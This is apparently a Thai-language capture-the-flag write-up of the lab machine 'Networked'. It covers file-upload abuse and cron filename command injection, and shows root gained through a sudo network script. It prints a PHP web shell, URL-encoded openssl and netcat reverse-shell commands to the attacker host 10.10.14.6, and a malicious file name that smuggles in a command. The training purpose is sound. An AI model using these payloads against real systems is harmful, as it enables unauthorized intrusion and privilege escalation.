









# Recon

## TCP Scan

```bash
sudo ../Tools/scan.sh 10.10.10.146
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-29 22:09 EDT
Nmap scan report for 10.10.10.146
Host is up (0.029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds

```

## TCP 80 




ภายใต้ /backup มีไฟล์ backup.tar อยู่


หากสังเกตดูจะมีไฟล์ upload.php ซึ่งจะมีตัวแปรชื่อ myFile และให้ลองทดสอบเข้าไปใน web จริง 
```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>

```


เมื่อลองทดสอบ upload ภาพของเราจะถูกแสดงอยู่ภายใต้ photos.php 



# Shell as apache 
## upload webshell 

```php
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```

รูปด้านล่างเป็นไฟล์ cat.php.jpeg และทำการเพิ่ม php shell ไปในไฟล์


จะเห็นได้ว่าเราสามารถ Upload เข้าไปได้ 




และเราจะเห็นได้ว่าไฟล์ของเราอยู่ภายใต้ uploads/ ซึ่งทำให้เราสามารถเข้าถึงไฟล์ดังกล่าวได้ 

```
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=id
```




```bash

## Kali Open Reverse shell on 443 
sudo openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes;sudo openssl s_server -quiet -key key.pem -cert cert.pem -port 443


## Target using OpenSSL Shell to Kali 
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=mkfifo%20%2Ftmp%2Fs%3B%20%2Fbin%2Fsh%20-i%20%3C%20%2Ftmp%2Fs%202%3E%261%20%7C%20openssl%20s_client%20-quiet%20-connect%2010.10.14.6%3A443%20%3E%20%2Ftmp%2Fs%3B%20rm%20%2Ftmp%2Fs
```


# Priv to guly 

หาเราสำรวจ /home จะเห็น guly ซึ่งมีการ setup crontab ไว้ 

```bash
sh-4.2$ whoami 
whoami 
apache
sh-4.2$ pwd 
pwd 
/home/guly
sh-4.2$ ls -la 
ls -la 
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 May 30 03:47 user.txt
sh-4.2$ 
sh-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
sh-4.2$ cat /home/guly/check_attack.php
```

```php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```


### วิเคราะห์โค้ด check_attack.php 
```php
require '/var/www/html/lib.php';
```

- ดึงฟังก์ชันจากไฟล์ lib.php มาใช้ เช่น check_ip() และ getnameCheck()

```php
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
```

- กำหนด path ของไฟล์ upload และ log (เขียนล็อกไว้ที่ /tmp/attack.log)

```php
$files = preg_grep('/^([^.])/', scandir($path));
```

- อ่านรายชื่อไฟล์ทั้งหมดในโฟลเดอร์ uploads/
- กรองเอาเฉพาะไฟล์ที่ **ไม่ขึ้นต้นด้วยจุด (.)** เช่น .htaccess จะไม่ถูกเลือก

```bash
foreach ($files as $key => $value) {
    $msg = '';
    if ($value == 'index.html') {
        continue;
    }
```

- วนลูปเช็กไฟล์ทีละชื่อ
- ถ้าเป็น index.html จะข้าม
    
```php
    list($name, $ext) = getnameCheck($value);
    $check = check_ip($name, $value);
```

- getnameCheck() แยกชื่อกับนามสกุลไฟล์ เช่น 127.0.0.1.png → 127.0.0.1, png 
- check_ip() เช็กว่า $name เป็น **IP address** ถูกต้องไหม (ใช้ filter_var())

```php
    if (!($check[0])) {
```

- ถ้าไม่ใช่ IP (เช่น abc.png หรือ a; rm -rf /.png) จะถือว่าเป็น “การโจมตี”
    
```php
        echo "attack!\n";
        file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
        exec("rm -f $logpath");
        exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
        mail($to, $msg, $msg, $headers, "-F$value");
```

- คำสั่ง exec("nohup /bin/rm -f $path$value ...") เอา **$value (ชื่อไฟล์)** มาต่อคำสั่งระบบโดยตรง
    → ถ้าชื่อไฟล์มีคำสั่งแฝง เช่น a; whoami; b.png จะหลุด **Command Injection**
- ไม่มี escapeshellarg() หรือการตรวจสอบ input ใด ๆ
- ผลคือเราสามารถใช้ “**ชื่อไฟล์**” ที่มีคำสั่งแฝง เพื่อรันคำสั่งในเซิร์ฟเวอร์ได้


**วิเคราะห์ Cronjob**    
    - ไฟล์ crontab.guly ตั้งให้รันทุก 3 นาที
```bash
php /home/guly/check_attack.php
```
  
**วิเคราะห์สคริปต์ check_attack.php**
    - อ่านไฟล์ทั้งหมดใน /var/www/html/uploads/
    - ถ้าไฟล์ไหน **ไม่ใช่** IP address (เช็กด้วย filter_var) จะสั่ง:
```php
exec("nohup /bin/rm -f /var/www/html/uploads/<ชื่อไฟล์> …");
```

ปัญหา: คำสั่ง exec() นำ **ชื่อไฟล์** (ตัวแปร $value) มาต่อท้ายโดย **ไม่ escape** →  **Command Injection** ได้ทันที

**ช่องทางโจมตี**  ดำเนินการอัปโหลดไฟล์ชื่อแปลก ๆ เช่น
```bash
a; <payload>; b
```

PHP ใช้ exec() กับชื่อไฟล์จากโฟลเดอร์ uploads ที่ผู้ใช้ควบคุมได้ → ใส่ payload ในชื่อไฟล์แล้วรอ cron รัน = ได้ reverse shell เป็น guly ได้

เราสามารถทำการสร้างไฟล์ภายใต้ uploads/ ได้โดยฝัง shell ภายใต้โฟลเดอร์ดังกล่าว  

```bash
touch ';nc -c bash 10.10.14.6 444'
```



# Pri to ROOT
หากเราใช้คำสั่ง sudo -l จะพบว่ามีโปรแกรมภายใต้ path /usr/local/sbin/changename.sh สามารถรันได้ด้วยสิทธิ root 

```bash
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ 
```

ซึ่งหาเรา cat ไฟล์ดังกล่าวมาจะพบว่ามีการเรียกใช้ ifcfg-XXXX ซึ่งเป็น network-scripts
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ); do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```


```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ice
ice
interface PROXY_METHOD:
a /bin/bash
a /bin/bash
interface BROWSER_ONLY:
b
b
interface BOOTPROTO:
c
c
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# 
```

# PWNED 